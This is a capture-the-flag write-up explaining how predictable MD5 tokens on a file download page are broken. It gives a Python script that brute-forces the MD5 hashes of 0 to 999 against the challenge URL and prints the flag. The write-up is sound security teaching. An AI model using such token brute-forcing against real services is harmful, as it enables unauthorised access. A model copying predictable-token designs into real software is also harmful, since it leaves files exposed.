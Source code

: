 # Download me ...

## Problem

The problem simply links the URL to the webpage,


## Solution

Simply clicking on `flag.txt` results in an `Invalid token.` error. 
Viewing the source code, we can see that the each file has a token associated with it. 

```
download.php?file=file1.txt&token=6f2268bd1d3d3ebaabb04d6b5d099425
download.php?file=file2.txt&token=e6cb2a3c14431b55aa50c06529eaa21b
download.php?file=file3.txt&token=65658fde58ab3c2b6e5132a39fae7cb9
download.php?file=flag.txt&token=
```

The length of each token is 32 characters suggesting it might be an MD5 hash. 
Using [Hashkiller](https://hashkiller.co.uk/Cracker),
```
6f2268bd1d3d3ebaabb04d6b5d099425 MD5 753 or osCommerce 75:3
e6cb2a3c14431b55aa50c06529eaa21b MD5 952 or osCommerce 95:2
65658fde58ab3c2b6e5132a39fae7cb9 MD5 536 or osCommerce 53:6
```

We realize that all the hashes are simply numbers, meaning we can brute force the valid token.

Here is the python script that does that:
```python
import requests
import hashlib

url = 'http://159.89.22.33:25632/download.php?file=flag.txt&token='

for n in range(1000):
	m = hashlib.md5()
	m.update(str(n))
	r = requests.get(url + m.hexdigest())
	if(r.text != 'Invalid token.'):
		print r.text
		break
```

Flag: **AFFCTF{Pr3dic71bl3_t0k3n5_4r3_b4d}**
